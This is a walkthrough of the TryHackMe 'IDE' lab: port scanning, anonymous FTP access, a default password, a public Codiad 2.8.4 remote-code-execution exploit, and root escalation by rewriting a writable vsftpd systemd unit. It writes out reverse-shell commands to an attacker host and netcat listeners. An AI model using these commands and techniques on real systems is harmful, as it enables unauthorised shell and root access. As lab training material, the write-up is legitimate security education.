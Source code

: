 # IDE
This writeup is intended for IDE room in [TryHackMe](https://tryhackme.com).

Table of Contents
=================
* [URL](#URL)
* [Introduction](#Introduction)
	* [Port scan](#Port-scan)
	* [Further port scan](#Further-port-scan)
* [FTP login](#FTP-login)
* [HTTP login](#HTTP-login)
* [Exploiting HTTP server](#Exploiting-HTTP-server)
* [Privillege Escalation](#Privillege-Escalation)
	* [Home Directory](#Home-Directory)
	* [SSH Login](#SSH-Login)
	* [FTP Exploitation](#FTP-Exploitation)

# URL

URL to the IDE room is: https://tryhackme.com/room/ide
Clickable URL to the room is provided [here](https://tryhackme.com/room/ide)

# Introduction

IDE is an easy difficulty box intended for further developing enumeration skills.
The task is to gain shell access on the box and escalate privilleges.

## Port scan
I started this room with simple port scan using `nmap`. The command I have used was `sudo nmap -vv -sS -oN -p- initial_scan.txt IP`. Explanation of the used flags is presented below:

```
sudo - gives nmap root privilleges.
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-sS - SYN (stealth) scan. Checks the status of ports by initiating TCP connections but never completing them.
-p- - specify ports to be scanned. Hyphen (-) indicates to scan all 65535 ports.
-oN - normal output is redirected to a given filename (in this case - initial_scan.txt).
IP - IP address of the target machine.
```

Finished scan found ***4*** open TCP ports. These ports are: ***21***, ***22***, ***80*** and ***62337***.

## Further port scan

Now let's do a more throughout scan of these ports with the command `nmap -vv -A -p 21,22,80,62337 -oN open_ports.txt IP`. Expanation for this command is presented below:

```
-vv - verbosity. Prints out more information about what the nmap scan is doing.
-A - aggresive scan options. Enables OS edection (-O), version scanning (-sV), script scanning (-sC) and traceroute (--traceroute) flags.
-p - specify ports to scan.
-oN - normal output is redirected to a given filename (in this case - open_ports.txt).
IP - IP address of the target machine.
```

This scan gave more information about the ports open and services running on top of them. Let's take a look at the newly found information:
1. Port `21` is running FTP service and it's version `vsftpd 3.0.3`.
	a. ftp-anon script scan results indicates that Anonymous FTP login is allowed.
2. Port `22` is running SSH service.
3. Port `80` is running Apache HTTP service.
4. Port `62337` is running another HTTP service.
	a. http-title of this server is Codiad 2.8.4. This specific version of Codiad has a vulnerability which allows Remote Code Execution (RCE) attacks and is a possible attack vector for privillege escalation on this system.

# FTP login

Next I will try anonymous login to the FTP service. The command for connecting to the FTP server is `ftp IP`, where `IP` is IP address of the target machine. When prompted for Username, type `anonymous` and leave the Password field empty.
When I had logged in to the FTP server, strangely I found no files in here. So I have used the `ls -lah` command for more information and found ***three*** directories here:
1. `.` and `..` are standard directories on UNIX-like operating systems.
2. `...` is ***not*** a standard directory.
I went to this directory with `cd` command and found a `-` file, which I have downloaded to host machine with FTP's `GET` command.
Then I have changed the name of the file from `-` to a `file` and gave it a `.txt` extension.
After that I have opened the file with a text editor and found a message in here:

```
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.
```

This gives us a couple of usernames - `john` and `drac`. Also, it says that the password for user `john` has been reset and is set to default. Likely, this is the user of the webserver at port `62337`. Well, if the user has default password, it should not be hard to guess it... :)

# HTTP login

So I have logged into the server via `Firefox` browser with the username `john` and password `password` and it opens an web-based ***Codiad 2.8.4*** administration panel with some python scripts. Based on the scripts, this server is used for controlling IP cameras and is the one we need to gain shell access to.

# Exploiting HTTP server

The specific Codiad version used in this box has a well described remote shell upload vulnerability, for which the code can be found [on the exploit-db site here](https://www.exploit-db.com/exploits/49705).
	So, I have downloaded this exploit to the attackbox and named it `codiad_exploit.py`. Following parameters needs to be specified for the script to run successfully:
1. ***URL*** of the target webserver. It consists of ***IP address*** and the ***Port number*** of the target webserver.
2. ***Username*** of the webserver's user.
3. ***Password*** of the same user.
4. ***IP address*** of the attacking machine.
5. ***Port*** that is used to listen to the reverse shell.
6. ***Platform*** that is running on the server (Windows or Linux).
7. When I opened Codiad administration panel within Firefox I found out that the files within the server are located in `/var/www/html` directory, so it can be conducted that this webserver is hosting Linux.

For succesfully running this exploit, ***3 terminal instances*** need to be used:
1. In ***the first terminal***, the command for server exploitation is constructed - `python3 codiad_exploit.py http://<target-ip>:<target-port> john [REDACTED] <attacker-ip> <listening-port> linux`.
2. From the exploit a reverse shell command is given to execute on a ***second terminal***. Command for this is: `echo 'bash -c "bash -i > /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1 2>&1"' | nc -lnvp <listening-port>`.
3. On the ***third terminal*** a ***netcat listener*** is set up. Command for this is `nc -lnvp <listening-port>+1`.

After the payload is sent, on the terminal with netcat listener there is an access to the target's shell - `www-data@ide`.

# Privillege Escalation

## Home Directory

Now it is necessary to navigate to the webserver's ***home*** directory. There is the folder for user `drac`. Within this directory there is the `user.txt` file. Although permission to view this file is denied at this stage. Luckily, `.bash_history` file is readable and contains the `mysql` user `drac` and this user's password.

## SSH Login

Although previously found credentials were intended for mysql, I have tried to SSH into the webserver with them and I succeeded to do that. Now I am inside a directory, where I ***have*** permissions to read `user.txt` file. Now it is possible to read this flag - a task that I will leave to the reader :)

## FTP Exploitation

By further analyzing the compromised system I was able to find out that the user `drac` is able to run `sudo` command. On `ide` server it can run `/usr/sbin/service vsftpd restart` command.
By using `locate` command I will search for `vsftpd.service` file.
The command gives back a bunch of `vsftpd.service` files but the most interesting one is located at `/lib/systemd/system/vsftpd.service` - this one can be written to by the user `drac`. It is possible to add a ***reverse shell payload*** to this file, so that when the FTP service is restarted, the server automatically connects to the listener that was set up earlier and gives root access to it.
When this file is opened, `ExecStart=` command needs to be changed to the reverse shell payload:

`ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<attacker-ip>/<listening-port>+1 0>&1'`

Save the file and restart FTP service with `sudo /usr/sbin/service vsftpd restart`. It gives a warning to reload units with `systemctl daemon-reload`. Reload the units and restart the FTP service again. Volia, the netcat listener should have access to the root shell of the webserver!
Now navigate to the `root` folder and grab the flag from the `root.txt`file :)

